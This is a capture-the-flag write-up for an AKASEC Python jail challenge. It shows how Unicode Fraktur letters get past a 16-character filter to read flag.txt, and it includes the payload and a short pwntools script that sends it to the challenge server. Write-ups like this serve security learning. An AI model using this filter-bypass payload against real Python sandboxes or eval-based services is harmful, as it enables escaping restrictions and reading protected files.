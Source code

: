 # pyJail

> <p>Sigh.. another python jail to escape.<br>Author: hel-makh</p>
> <p><a href="attachments/chall.py"></a>chall.py<br><a href="attachments/Dockerfile"></a>Dockerfile</p>

## Path to Flag
Just like how pyjail is supposed to be, we should open `flag.txt` but with limited command. On this challenge, the maximum character length is 16.

Tried several commands until another command will exceed 16 characters, so I found out and decided to use gothics letter.

`payload: 𝔭𝔯𝔦𝔫𝔱(𝔩𝔦𝔰𝔱(𝔬𝔭𝔢𝔫('flag.txt')))`

Hence, I just create the script to automate it

```
#!/usr/bin/env python3

from pwn import *

connection = remote('20.80.240.190', 4449)

prompt = connection.recvuntil(b'> ')

connection.sendline('𝔭𝔯𝔦𝔫𝔱(𝔩𝔦𝔰𝔱(𝔬𝔭𝔢𝔫(\'flag.txt\')))')

response = connection.recvall()
print(response.decode())

connection.close()
```

`AKASEC{1t5_4ll_4b0ut_3sc4p1ng_4nd_3v4lu4T1ng}`